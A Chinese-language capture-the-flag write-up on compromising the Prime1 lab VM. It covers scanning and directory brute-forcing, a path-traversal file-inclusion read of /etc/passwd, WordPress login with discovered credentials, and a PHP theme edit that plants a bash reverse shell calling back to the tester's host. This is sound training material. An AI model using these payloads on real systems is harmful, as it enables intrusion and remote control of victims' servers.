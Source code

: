 # 靶场记录Prime1

[TOC]

## 确认目标IP

## nikto扫描

```
┌──(kali㉿kali)-[~/Documents/Prime1]
└─$ sudo nikto -h 192.168.50.130 > nikto.txt
[sudo] password for kali: 
```

![image-20240622020110301](./assets/image-20240622020110301.png)

### 搜集信息

1. 安装了Akismet插件
2. wordpress版本WordPress/5.2.2
3. 上传目录信息泄露，使用的apache版本很旧
4. 登录口

```
http://192.168.50.130/icons/README
http://192.168.50.130/wordpress/wp-content/plugins/akismet/readme.txt
http://192.168.50.130/wordpress/wp-links-opml.php
http://192.168.50.130/wordpress/wp-content/uploads/
http://192.168.50.130/wordpress/wp-login.php
http://192.168.50.130/wordpress/wp-login.php?action=register
```

<img src="./assets/image-20240622023005082.png" alt="image-20240622023005082" style="zoom: 67%;" />

![image-20240622023039342](./assets/image-20240622023039342.png)

![image-20240622023109014](./assets/image-20240622023109014.png)

<img src="./assets/image-20240622023202179.png" alt="image-20240622023202179" style="zoom:50%;" />

## dirb目录爆破

```
┌──(kali㉿kali)-[~/Documents/Prime1]
└─$ dirb http://192.168.50.130 -o dirb.txt
```

![image-20240622045002071](./assets/image-20240622045002071.png)

### 信息搜集整理

1. 泄露非常规目录http://192.168.50.130/dev

   ![image-20240622045054852](./assets/image-20240622045054852.png)

2. 还泄露了一些常规目录路径，应该放在以后看。

   ![image-20240622045632661](./assets/image-20240622045632661.png)

## dirb文件爆破

```
┌──(kali㉿kali)-[~/Documents/Prime1]
└─$ dirb http://192.168.50.130  -X .zip,.txt -o dirbfile.txt
```

![image-20240622045926904](./assets/image-20240622045926904.png)

![image-20240622050047613](./assets/image-20240622050047613.png)

从提示中直到接下来我们要对php做模糊测试，因此接下来的操作转变为，搜索所有可访问的PHP。

## 搜索php

1. 已知http://192.168.50.130/wordpress/wp-admin/includes/目录下有很多php文件，信息来自于nikto
2. http://192.168.50.130/image.php，信息来自于dirb
3. http://192.168.50.130/index.php，信息来自于dirb



## WFuzz寻找php参数

```
┌──(kali㉿kali)-[~/Documents/Prime1]
└─$ wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt --hh 136  http://192.168.50.130/index.php?FUZZ=xxxx
```

![image-20240622053517996](./assets/image-20240622053517996.png)

```
┌──(kali㉿kali)-[~/Documents/Prime1]
└─$ wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt --hh 136  http://192.168.50.130/index.php?FUZZ=xxxx
```

![image-20240622053558980](./assets/image-20240622053558980.png)

### 结合前面提示

![image-20240622050047613](./assets/image-20240622050047613.png)

![image-20240622054757837](./assets/image-20240622054757837.png)

尝试访问，根据提示说明方向正确。

![image-20240622055406212](./assets/image-20240622055406212.png)

## 深入挖掘secrettier360

猜测是本地文件包含，尝试访问，果然不出所料。

http://192.168.50.130/image.php?secrettier360=../../../../../../../../etc/passwd

![image-20240622060717378](./assets/image-20240622060717378.png)

尝试读取shadow失败，说明权限不够。因此改变思路，读取wordpress敏感文件尝试登录后台，利用web后台漏洞。但是在次细心浏览，则会发现

作者给出的提示。

![image-20240622063417582](./assets/image-20240622063417582.png)

![image-20240622064229759](./assets/image-20240622064229759.png)

尝试登录wordpress失败，运气真够衰的。

| account | password          | result |
| ------- | ----------------- | ------ |
| saket   | follow_the_ippsec | 失败   |
| victor  | follow_the_ippsec | 成功   |
| admin   | follow_the_ippsec | 失败   |

![image-20240622065150173](./assets/image-20240622065150173.png)

## WP后台渗透

1. 测试是否能够上传自定义插件，经过测试不行
2. 测试Appearance是否有php文件能够修改

经过尝试在themes中TwentyNineteen中有secret.php能够修改，准备一句话php木马。

```php
<?php exec("/bin/bash -c 'bash -i >&  /dev/tcp/192.168.50.129/443 0>&1'")?>
```



```
192.168.50.130/wordpress/wp-content/themes/twentynineteen/secret.php
```



<img src="./assets/image-20240622081415177.png" alt="image-20240622081415177" style="zoom:67%;" />

<img src="./assets/image-20240622081516989.png" alt="image-20240622081516989" style="zoom: 67%;" />

## 提升权限

1. msf搜索
2. 本地编译，上传提权失败
3. 远程上传提升权限陈工

![image-20240622084133359](./assets/image-20240622084133359.png)

![image-20240622084159881](./assets/image-20240622084159881.png)

## 获取交互shell

1. dpkg -i 或者python --version发现安装了python2.7
2. `python -c "import pty;pty.spawn('/bin/bash')"`开启一个交互更好的shell
3. ![image-20240622084756698](./assets/image-20240622084756698.png)

## 胜利结算

![image-20240622085739255](./assets/image-20240622085739255.png)

### 总结

### wpscan

在发现是wordpress时就应该想到使用wpscan。比如在从/home/saket/password.txt获得密码以后，由于发现saket无法登录wordpress，除了想我一样反复尝试，还可以使用wordpress获得用户的账户。

```
┌──(kali㉿kali)-[~]
└─$ sudo wpscan --url http://192.168.50.130/wordpress -e u
```

![image-20240622073400875](./assets/image-20240622073400875.png)

